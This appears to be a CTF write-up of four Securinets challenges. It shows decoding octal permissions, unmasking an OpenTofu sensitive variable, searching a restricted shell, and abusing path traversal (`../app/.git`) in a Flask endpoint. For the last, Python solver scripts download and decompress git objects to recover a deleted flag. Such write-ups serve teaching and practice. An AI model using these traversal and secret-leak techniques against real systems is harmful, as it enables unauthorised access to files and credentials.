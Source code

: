 # Perms
This task is an easy one being solved by 22 teams. We are given a simple challenge.txt file with linux permissions in each line.
Having no description or hints with the task , i thought of calculating permissions using an online calculator. [Link](https://nettools.club/chmod_calc)

Than we can use [Cyberchef](https://gchq.github.io/CyberChef/) with the function `from octal` to decrypt the message and get the flag.


# Openheimer
Task description : terraform's good, but have you tried opentofu?
We were given a netcat to interact with the server having openofu console running and a `main.tf` file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f0d50c05-3a50-498f-a305-180c316a8e44)

This task was an opportunity to learn about terraform and opentofu as it is a free terraform fork. [OpenTofu](https://opentofu.org)
Knowing that we have the console running , i tried some console commands using the documentation [Doc](https://opentofu.org/docs/cli/commands/console/)
![image](https://github.com/Garroura/CyberTEK/assets/164345052/b04d894e-7137-4ada-af83-370ab58428d9)

In order to print the value of our variable named `SECRET` , we can use `var.SECRET` but is says `(sensitive value)` which is obvious because `sensitive` is set to `True`.
So we need to baypass this and print the value. Going through the terraform commands [link](https://developer.hashicorp.com/terraform/language/functions/nonsensitive) we found that `nonsensitive` command takes a sensitive value and returns a copy of that value with the sensitive marking removed, thereby exposing the sensitive value.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/f5a1d4eb-2054-4fe8-a0ec-e542a23ec918)


As we can see it is refusing to print the value in plaintext so we will try weak encoding functions starting with `base64encode` .
![image](https://github.com/Garroura/CyberTEK/assets/164345052/c16c0ec1-c480-4987-9d00-b6fa52b0851a)

We can see here thas he is blacklisting some functions so we will try different encoding techniques. As we go through , the `urlencode` function is printing something.
![image](https://github.com/Garroura/CyberTEK/assets/164345052/11087099-314e-4f3c-b2bc-6bb5310d89a3)

Using the urldecode function  in Cyberchef we get our flag in ascii .

`Securinets{oP3N7OfU_I5_4w35Om3_8U7_83c4R3FuL_WH3n_WORkin9_Wi7h_53Cr3Ts}`

# bolbok

Task description : Bolbok is scared of the arcane and has hidden his secret in this restricted shell.
Using the netcat to connect to the server , we have a shell but we can only use some commands. I used this offsec handbook it helps a lot [Offsec](https://0xffsec.com/handbook/shells/restricted-shells/)
To see writable variables i used `export -p`. 
![image](https://github.com/Garroura/CyberTEK/assets/164345052/5ead06c3-2c0b-42be-9246-e45173fba38d)

As we can see the commands we can execute are stored in /usr/bolbok/cmds 

I used `echo /usr/bolbok/cmds/*` to list the directories in the file.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c670dc26-3286-4384-b9dd-bddd9186413a)

Knowing that we can execute `ls` command , we can use -l to -a to and -R to list all directrories starting with / ( `ls -laR /`)

Going through the listed directories we can find a hidden file named .flag in `/usr/share/misc/bolbok/directorysecrets/youwillneverfindthis`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/e791a61a-c182-4254-a529-e927ca7e8f65)

Now , knowing the directory and the flag format we can use `grep -r "Securi" /usr/share/misc/bolbok/secrets/youwillneverfindthis` 

![image](https://github.com/Garroura/CyberTEK/assets/164345052/62d58771-afb8-4d0b-b217-367981c982e9)

`Securinets{wH47_W45_7H47_3x4C7LY?4n_R845h_j41l??_0r_ls_4nd_grep_L3550n}`

# Ekko 
Task description : ls & cat made easy.

We were given a web page that shows its source code written in Flask and a dockerfile.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/aec601f1-47d7-4f02-af0d-c97d20afd4b0)

![image](https://github.com/Garroura/CyberTEK/assets/164345052/c380ed98-7b96-4919-9e7c-cdac11895bb6)


Going through the code , we see that we can use the commands `ls` and `cat` with q as a query parameter. 
Looking at the docker file , we know that there is a .git file in the app directory so we try `https://ekko.securinets-tekup.tech/ls?q=../app/.git`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/43012f69-e16d-4894-a58f-f582ea94dd63)


I tried to go through each file and look for sensitive information , so i found this using `https://ekko.securinets-tekup.tech/cat?q=../app/.git/logs/HEAD`

![image](https://github.com/Garroura/CyberTEK/assets/164345052/60c8fbaf-6167-45ae-8be9-c4137dc2f6b8)


We can see the commmit changes history and their hashes , the user added a file named flag.txt to the git then deleted it , so we need to go back to that commit.
Going through the git [docs](https://git-scm.com/book/fr/v2/Les-tripes-de-Git-Les-objets-de-Git)  and doing some researchs , i found that the git commits are stored in the `/.git/objetcs` directory using the commit hash ( This is how Git initially stores content - one file per content, named after the SHA-1 checksum of the content and its header. The subdirectory is named after the first 2 characters of the fingerprint and the file after the remaining 38 characters ). I tried the hash of the commit containing the flag.txt using `/cat?q=../app/.git/objects/c3/af58e5721c2dbd456ddef869a6a95d0eac473f`
It shows non printable caracters and some encoded strings.

![image](https://github.com/Garroura/CyberTEK/assets/164345052/a1693c54-37b1-430a-a773-4105f2db1587)

Using the same git documentation , i looked for how blobs are encoded in git and i found that it is `zlib` compressed.
We wrote a solver to get all the files in /.git/objects and decompress the content of each file in order to get the flag .
```
import os
import requests, re

url = "https://ekko.securinets-tekup.tech/"

get_objects = requests.get(url + "ls?q=../app/.git/objects/" )
obj = re.findall('\w+', get_objects.text)

destination_folder = "Files"
if get_objects.status_code == 200:
    for i in obj:
        com = requests.get(url + "ls?q=../app/.git/objects/" + i + '/')
        get_com = re.findall('\w+',com.text)
        for commut in get_com:
            blob = requests.get(url + "cat?q=../app/.git/objects/" + i + '/' + commut)
            with open(commut + ".zlib", 'wb') as f:
                f.write(blob.content)
            print("Downloaded successfully:", commut + ".zlib")
        else:
            print("Failed to download:", blob.status_code)
````
````
import os
import zlib
folder_path = '`File'

# Iterate through all files in the folder
for filename in os.listdir(folder_path):
    file_path = os.path.join(folder_path, filename)
    try : 
        with open(file_path,'rb') as f:
            ct= f.read()
        a = (zlib.decompress(ct))
        print(f" : {file_path} :  {a}")
    except : continue
``
`Securinets{y43h_n0w_U_Kn0W_Wh4T_15_917_bL0bS}`

